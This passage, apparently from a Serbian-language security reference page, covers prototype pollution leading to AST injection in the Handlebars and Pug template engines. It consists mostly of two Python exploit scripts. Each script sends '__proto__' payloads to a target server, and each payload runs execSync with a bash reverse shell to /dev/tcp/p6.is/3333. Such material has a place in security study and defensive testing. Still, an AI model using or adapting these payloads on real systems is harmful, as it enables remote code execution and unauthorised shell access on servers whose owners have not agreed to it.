 **Spoljni Reference**: [Problem povezan sa zagađenjem prototipa u biblioteci 'flat'](https://github.com/hughsk/flat/issues/105)

Primer eksploatacije zagađenja prototipa u Pythonu:

```python
import requests

TARGET_URL = 'http://10.10.10.10:9090'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
"__proto__.type": "Program",
"__proto__.body": [{
"type": "MustacheStatement",
"path": 0,
"params": [{
"type": "NumberLiteral",
"value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}],
"loc": {
"start": 0,
"end": 0
}
}]
})

# execute
requests.get(TARGET_URL)
```

#### Pug Vulnerability

Pug, još jedan šablonski motor, suočava se sa sličnim rizikom od zagađenja prototipa. Detaljne informacije dostupne su u diskusiji o [AST Injection in Pug](https://blog.p6.is/AST-Injection/#Pug).

Primer zagađenja prototipa u Pugu:

```python
import requests

TARGET_URL = 'http://10.10.10.10:9090'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
"__proto__.block": {
"type": "Text",
"line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}
})

# execute
requests.get(TARGET_URL)
```
